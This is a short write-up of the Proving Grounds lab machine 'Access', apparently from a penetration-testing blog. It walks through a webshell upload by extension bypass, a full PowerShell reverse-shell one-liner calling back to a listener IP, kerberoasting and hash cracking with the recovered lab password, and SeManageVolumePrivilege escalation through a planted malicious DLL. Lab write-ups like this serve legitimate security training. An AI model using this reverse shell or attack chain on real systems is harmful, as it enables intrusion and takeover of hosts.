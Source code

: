 ```yaml
---
title: "Access"
date: 2025-03-23
categories:
  - Proving Grounds
  - Active Directory
tags:
  - Proving Grounds
  - Active Directory
---
```


# Access 🔸
<!-- more -->


## Enumeration

![](../assets/Pasted%20image%2020250323155804.png)

Web server shows a page about the event.

![](../assets/Pasted%20image%2020250323155931.png)

## Initial Access

We can upload images, so we can upload a webshell; change the extension by intercepting the request and change it from `.png` to `.php...`

![](../assets/Pasted%20image%2020250323170917.png)

File will be in `/uploads` (discovered with `feroxbuster`).

![](../assets/Pasted%20image%2020250323171044.png)

Now let's try to get a reverse shell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.220',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](../assets/Pasted%20image%2020250323182244.png)

## Privilege Escalation

Transfer `sharphound` and get the zip. See the data in `bloodhound`.

User `svc_mssql` is kerberoastable.

We don't have `svc_apache` password, so we have to execute the attack on the target. Transfer `rubeus` there.

![](../assets/Pasted%20image%2020250323190341.png)

Using `hashcat`:

![](../assets/Pasted%20image%2020250323190445.png)

We have `svc_mssql:trustno1`

To execute commands as this user, we need `runas`.

Using `-Remote`, we can redirect the shell to a remote one.

![](../assets/Pasted%20image%2020250323223151.png)

This user has `SeManageVolumePrivilege`.

![](../assets/Pasted%20image%2020250323223409.png)

Using [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

Download and transfer the exe.

![](../assets/Pasted%20image%2020250323230405.png)

Now, following the readme, generate a malicious DLL with `msfvenom` and transfer it to `C:\windows\system32\spool\drivers\x64\3\PrintConfig.dll`

Start a listener and trigger it.

![](../assets/Pasted%20image%2020250323233313.png)
![](../assets/Pasted%20image%2020250323233344.png)

## Post Exploitation

![](../assets/Pasted%20image%2020250323233402.png)
